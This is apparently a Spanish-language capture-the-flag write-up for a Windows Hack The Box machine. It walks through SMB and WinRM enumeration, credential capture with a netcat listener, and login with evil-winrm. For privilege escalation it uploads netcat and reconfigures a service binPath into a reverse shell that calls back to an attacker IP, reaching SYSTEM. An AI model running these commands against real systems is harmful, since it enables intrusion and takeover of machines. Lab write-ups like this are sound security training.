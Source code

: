 ## Summary

Tags: #Windows #SMB #WinRM #NT-AuthoritySystem #ReverShell #Netcat #NetUser  

- IP -> 
- Ports -> TCP (53,80,88,135,139,389,445,5985), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80  -> HTTP microsoft IIS/10.0
    - 445 -> SMB
    - 5985 -> WinRM

## Recon
Windows IIS (10.0)

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ nc -nlvp 389 
```
Nos ponemos a explorar la pagina web y encontramos que podiamos hacer que la pagina al momento de hacerle Update, esta apuntara a nuestra IP y asi con nc ver el contenido y nos devuelve un User y una Passwd

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Ahora podemos usar el puerto 5985 para poder ingresar con WINRM
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Una vez adentro buscamos la flag del usuario user.txt en Desktop

Ahora nos disponemos a probar comandos para ver como poder escalar privilegios en la maquina Windows
```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```

```bash
❯ systeminfo                                 # Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.
```

```bash
❯ net user <USER>                            # Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. 


# Server Operators = Es un grupo en el que podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Si pertenecemos a este grupo podemos cargar a la maquina victima Netcat.exe.
```

Ahora buscamos en Google la parte de Server Operators para ver que significa y que podemos hacer.
Los miembros de **Server Operators** pueden administrar el domain controller. Pueden hacer las siguientes acciones, iniciar sesión en un servidor de forma interactiva, crear y eliminar recursos compartidos de red, iniciar y detener servicios, realizar copias de seguridad y restaurar archivos, formatear la unidad de disco duro de la computadora y apagar la computadora. Este grupo no puede ser renombrado, eliminado o removido.

Por lo que nos ponemos a utilizar Netcat para poder entrar 
Buscamos el archivo nc.exe en la maquina atacante para despues subirlo a la maquina victima en el directorio Temp, ya que en ese directorio hay permisos de lectura y escritura.

```bash
❯ upload /home/omar/Documet/HTB/nc.exe       # Subimos el archivo Netcat a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

Despues podemos crear una revershell y ver si podemos crear un servicio 
```bash
❯ sc.exe create reverse binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 

# Si no nos deja, hacemos lo siguiente:
❯ Services                            # Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo de 'Server Operators' y asi podernos montar una revershell con algun servicio con sc.exe
❯ sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)
```

## Root

```bash
❯ nc -nlvp 443 
```

Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
```bash
❯ sc.exe stop VMTools              # Paramos el servicio
❯ sc.exe start VMTools             # Iniciamos el servicio
```

Nos damos cuenta que ya somo **NT Autority System** y tenemos los privilegios de administrador, por lo que nos dirigimos a buscar la flag roo.txt

